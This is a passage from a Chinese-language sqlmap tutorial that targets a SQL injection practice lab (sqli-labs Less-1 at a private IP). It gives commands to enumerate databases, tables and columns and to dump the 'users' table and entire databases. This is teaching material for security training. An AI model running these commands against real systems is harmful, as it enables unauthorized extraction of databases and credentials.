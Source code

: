 ### 查看所有的数据库(—dbs)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dbs
```

### [![img](https://p5.ssl.qhimg.com/t0189a6637411cb3482.png)](https://p5.ssl.qhimg.com/t0189a6637411cb3482.png)

### 查看当前的数据库(—current-db)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-db #查看当前的数据库
```

[![img](https://p4.ssl.qhimg.com/t0184d52d7edf6a0218.png)](https://p4.ssl.qhimg.com/t0184d52d7edf6a0218.png)

### 爆出指定数据库中的所有的表

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
```

[![img](https://p1.ssl.qhimg.com/t0154e7dcf64c049fce.png)](https://p1.ssl.qhimg.com/t0154e7dcf64c049fce.png)

### 爆出指定数据库指定表中的所有的列

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns
```

[![img](https://p4.ssl.qhimg.com/t01557f4395d91accdc.png)](https://p4.ssl.qhimg.com/t01557f4395d91accdc.png)

### 爆出指定数据库指定表指定列下的数据

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
```

[![img](https://p2.ssl.qhimg.com/t016b9a96c7c30a57d7.png)](https://p2.ssl.qhimg.com/t016b9a96c7c30a57d7.png)

### 爆出该网站数据库中的所有数据

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据
```

## Sqlmap的高级用法
